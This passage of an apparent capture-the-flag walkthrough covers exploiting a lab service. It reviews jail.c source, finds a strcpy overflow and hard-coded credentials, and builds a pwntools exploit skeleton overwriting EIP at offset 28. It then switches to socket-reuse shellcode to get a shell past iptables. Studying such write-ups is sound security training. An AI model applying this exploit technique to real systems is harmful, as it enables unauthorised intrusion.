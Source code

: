 ### 3. Source Code Analysis (jail.c)
- **Technique**: Manual code review to identify vulnerabilities.
- **Steps**:
  - Download files from `/jailuser/dev/` using `wget -r http://[TARGET-IP]/jailuser/dev/`.
  - Analyze `jail.c` source code, identifying:
    - A buffer overflow vulnerability in `strcpy`, copying a 256-byte `password` buffer into a 16-byte `userpass` buffer.
    - Hard-coded credentials: username `admin`, password `1974jailbreak`.
    - Debug mode that leaks memory addresses when enabled.
    - The application listens on port 7411 for socket-based communication.
  - Review `compile.sh`, noting flags `-m32` (32-bit binary) and `-z execstack` (disables stack protection).

### 4. Buffer Overflow Exploitation Setup
- **Technique**: Setting up a local CentOS 7 environment to mimic the target for reliable exploit development.
- **Steps**:
  - Set up a CentOS 7 box and transfer `jail.c` and `compile.sh`.
  - Modify `compile.sh` to include `-g` flag for debugging symbols: `gcc -m32 -z execstack -g jail.c -o jail`.
  - Run the binary and attach GDB: `ps aux | grep jail` to get PID, then `gdb --pid <PID>`.
  - Configure GDB: Set `follow-fork-mode` to `child` and `detach-on-fork` to `off` to track child processes.

### 5. Buffer Overflow Exploit Development
- **Technique**: Crafting a buffer overflow exploit using Pwntools to gain a shell.
- **Steps**:
  - Connect to the service on port 7411: `nc [LOCAL-IP] 7411`.
  - Enable debug mode: Send `debug`, `user admin`, and `pass <payload>`.
  - Identify the buffer overflow offset using a cyclic pattern (50 bytes) generated by `pwntools`: `pwn cyclic 50`.
  - Use GDB to find the offset (28 bytes) where EIP is overwritten: `pwn cyclic -l <value>`.
  - Leak the `userpass` buffer address in debug mode.
  - Craft exploit skeleton with Pwntools:
    ```python
    from pwn import *
    context(os='linux', arch='i386')
    host, port = '[TARGET-IP]', 7411
    p = remote(host, port)
    p.recvuntil('OK Ready')
    p.sendline('debug')
    p.recvuntil('OK Debug mode on')
    p.sendline('user admin')
    p.recvuntil('pass')
    payload = b'A' * 28 + p32(<leaked_address> + 32) + b'\xcc' * 20
    p.sendline(payload)
    ```
  - Initially attempt a reverse TCP shellcode, but it fails due to iptables blocking reverse shells.

### 6. Socket Reuse Shellcode
- **Technique**: Use socket reuse shellcode to bypass iptables restrictions.
- **Steps**:
  - Replace reverse shellcode with socket reuse shellcode (smaller, reuses existing connection).
  - Modify exploit to include socket reuse shellcode and enter interactive mode: `p.interactive()`.
  - Execute exploit: `python exploit.py`, gaining a shell as `nobody` in an SELinux sandbox.
